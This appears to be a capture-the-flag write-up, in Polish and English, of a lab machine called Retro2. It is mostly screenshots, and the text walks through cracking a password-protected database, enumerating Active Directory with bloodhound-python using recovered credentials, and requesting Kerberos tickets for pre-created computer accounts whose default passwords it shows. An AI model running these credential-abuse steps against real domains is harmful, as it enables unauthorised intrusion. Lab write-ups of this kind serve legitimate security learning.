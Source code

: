 ![{0025D800-4CB0-462A-87BE-DF5FEC8E0160}](https://github.com/user-attachments/assets/104b347f-038f-4738-8cb8-b826eaffedbf)

![{E38E8869-3450-41CC-B015-907860CA390F}](https://github.com/user-attachments/assets/ac39365f-2411-4432-a30f-107e613f028f)

Database is password protected

![{6276DCDB-FAAD-4469-AD22-AEC492660FC5}](https://github.com/user-attachments/assets/03c0ecad-08f5-4414-a50b-57fa92c49e3e)

Fast cracking

![cracking](https://github.com/user-attachments/assets/4e6e98f5-1368-4806-93af-e49d5562f858)

I exported data to .txt file

![{6539CF70-EE3A-4923-9B61-E5D5FDCCC84D}](https://github.com/user-attachments/assets/6338b160-551c-4018-8be6-23f783530bbe)


![cracking](https://github.com/user-attachments/assets/86b4fa51-ce76-4126-9474-426bf06c1cb7)
![pass](https://github.com/user-attachments/assets/46b9cf5f-57d9-4fc6-bdfc-bd83e1d09a8e)

`ldapreader` więc chyba coś z ldapem hehe.
Ale ja machnę bloodhounda bo to samo da i więcej

`bloodhound-python -d retro2.vl -c all -u ldapreader -p p<hidden>R -ns 10.10.77.186`

Widzimy kilka komputerów... mam pomysł z poprzedniego retro

![{6B33EE5F-5F14-46E8-8C91-B91DECADABE4}](https://github.com/user-attachments/assets/045d8bb7-314d-41ca-badb-0249236aab26)

![{3D52E395-BA8D-41E1-98CC-2B052D5A08D6}](https://github.com/user-attachments/assets/3803755b-0eb9-436b-8e2f-814e58029b0c)

![{8FBC979E-E930-4ADE-A86E-275A9D522704}](https://github.com/user-attachments/assets/fc80f9e8-8a48-4045-b8f3-a0fd78a0565c)

sooooo x2 `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` are interesting

```
FS01$:fs01
FS02$:fs02
```

```
impacket-getTGT 'retro2.vl/FS01$:fs01'
export KRB5CCNAME=FS01\$.ccache
klist
```

![{1003E993-EAEB-42EB-82CE-FE4A55A55AA9}](https://github.com/user-attachments/assets/d4ae5992-669b-461e-9f8e-6b572c6b6a75)

```
cat /etc/krb5.conf      
[libdefaults]
        default_realm = RETRO2.VL
        dns_lookup_realm = false
        ticket_lifetime = 24h
        renew_lifetime = 7d
        rdns = false
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        fcc-mit-ticketflags = true

[realms]
        RETRO.VL = {
                kdc = BLN01.RETRO2.VL
                admin_server = BLN01.RETRO2.VL
        }
```